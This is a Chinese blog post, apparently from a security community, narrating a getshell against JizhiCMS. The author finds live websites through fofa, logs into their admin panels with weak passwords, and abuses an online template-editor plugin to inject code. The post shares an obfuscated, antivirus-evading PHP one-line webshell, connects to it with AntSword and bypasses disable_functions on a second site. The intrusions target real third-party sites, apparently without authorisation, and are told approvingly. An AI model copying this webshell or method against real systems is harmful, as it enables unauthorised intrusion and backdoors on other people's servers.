# 记某CMS漏洞getshell - 先知社区

记某CMS漏洞getshell

- - -

# 记极致CMS漏洞getshell

> 今天下午比较空闲，就去搜索一些cms，突然对极致CMS感兴趣，而网上已经有一些文章对它进行分析利用，sql注入,xss,后台修改上传后缀名前台getshell等等。  
> 于是就引起了我的兴趣想去测试一下。

## 信息收集

还是因为自己太懒，不想搭建环境，然后就想网上有好多网站啊，随便找一个去看看。hhh然后去利用`fofa`去搜索。（不能随便乱日）

## 弱密码yyds

搜索了一些网站，我们直接在url后面添加`/admin.php`,就直接跳到后台登录的地方。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000203-4656ee22-8cba-1.png)

看到后台？！嗯~，测试了sql无果，想一想万一有弱密码呢？试一试也没有啥。

然后就测试了弱密码，你懂的。

然后成功登录~ 仿佛就看到了`shell`就在我面前了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000210-4a60369a-8cba-1.png)

因为之前有师傅发过前台上传文件getshell了，那我这里就不进行测试了。直接寻找另一个方法getshell。

和平常的框架一样，登录后台之后就需要去测试功能点，然后我们就一个一个的去测试吧~（这里大概过了有40分钟 2333~）

唯一我感觉利用点就存在系统设置中的高级设置，我们可以选择上传的后缀名，不过这里是前台的上传啊，后台虽然有上传点但是一直绕过不了。难受死了，心里又不甘心在前台上传getshell，在岂不是很没有面子（傲娇）

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000216-4df7f84c-8cba-1.png)

这里一直后台没有绕过~~~ 2333~

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000223-520a45fc-8cba-1.png)

## 柳暗花明又一村

想一想，如果要利用后台，那肯定是一些功能的问题，那我们就去认真找一下网站功能，找来找去就发现一个上传点，有点难受了。过了好久，突然想起了后台有一个`扩展管理`啊，应该说肯定可以下载一下插件来更加功能的吧。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000231-56b428de-8cba-1.png)

然后就凭着感觉和功能去看看那些插件可以利于。发现了一个在线编辑模板的插件

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000237-5a8a187e-8cba-1.png)

这里可能是ctfer的自觉吧~因为之前打过的ctf题基本上是可以利于编辑插件进行修改代码，就可以getshell。话不多说就开始尝试。先下载了该模块并进行安装。

安装前我们还是看看安装说明。万一错误了怎么办！

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000248-610d8460-8cba-1.png)

意思就是我们安装的时候还需要设置密码，并且该目录权限比较高,`777`就让我看到了`shell`的希望

然后就设置密码登录密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000258-66c0f8f6-8cba-1.png)

成功登录之后就看到了这个页面我当时直接嗨了起了（np！！！）

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000304-6a545b02-8cba-1.png)

进入这个页面，那岂不是可以修改代码了，嘿嘿嘿~ 那不是shell唾手可得！

## 写shell连蚁剑

测试了该插件的功能，发现只能修改代码还不能写文件，嗯~。那也简单啊，我们先在已存在的php页面上写入一句话，然后蚁剑连接，创建文件写shell,之后在删除之前修改的代码。

这里分享一个`免杀的小马`

```plain
<?php
$a = $GLOBALS;
$str = '_POST';
eval/**nice**/(''. $a[$str]['cf87efe0c36a12aec113cd7982043573']. NULL);
?>
```

这里写入我们的一句话木马

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000312-6f194bb6-8cba-1.png)

然后就是蚁剑去连接啦。看到蚁剑存在了一个绿色东西，长叹一口气~（不过如此）

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000317-72416d6e-8cba-1.png)

连接成功居然不能执行？？？

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000327-783fe60a-8cba-1.png)

心里又难受了一下~~~  
然后去看看到底过滤了那些函数。并且php版本是5.6

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000344-8229f250-8cba-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000350-85d8ff36-8cba-1.png)

## 绕disable\_functions(没成功)

然后直接上蚁剑的插件，然后发现是5.6 并且是windows 呜呜呜 不会 直接告辞~

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000357-8a0bdb5a-8cba-1.png)

虽然没有成功执行命令，但也是一个getshell的思路。

啊~烦~。但是渗透人怎么能认输~

**俗话说得好，拿不下就换一个**（需要表哥们可以给一些意见学习一下~）

## 进行收集信息

进行重复上面的操作又获得一个网站。并且还是通过弱口令获得~

**弱口令yyds**

## getshell执行命令

这里的步骤和前面一样，因为有前面的步骤，而这个shell就简单多了。

也成功获得蚁剑连接。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000405-8ed76c12-8cba-1.png)

并且还是不能执行命令，但是看到了linux系统就想，肯定比windows好多了啊。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000410-91b3f928-8cba-1.png)

于是就开始绕disable\_functions，系统信息是这样的，那直接蚁剑一把梭。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000415-94b2fe12-8cba-1.png)

成功绕过，这不就成功了!!!

[](https://xzfile.aliyuncs.com/media/upload/picture/20210325000421-985085d0-8cba-1.png)

爽歪歪~

## 总结

-   极致CMS还是存在很多漏洞的。这里小弟只是抛砖引玉而已。
-   而写到这里的时候已经是晚上了，提权的话还是后面文章在说吧。
-   简单的说一下就是该漏洞是主要存在于cms后台插件的位置，允许用户修改代码，而这没有过滤就造成了巨大的风险。
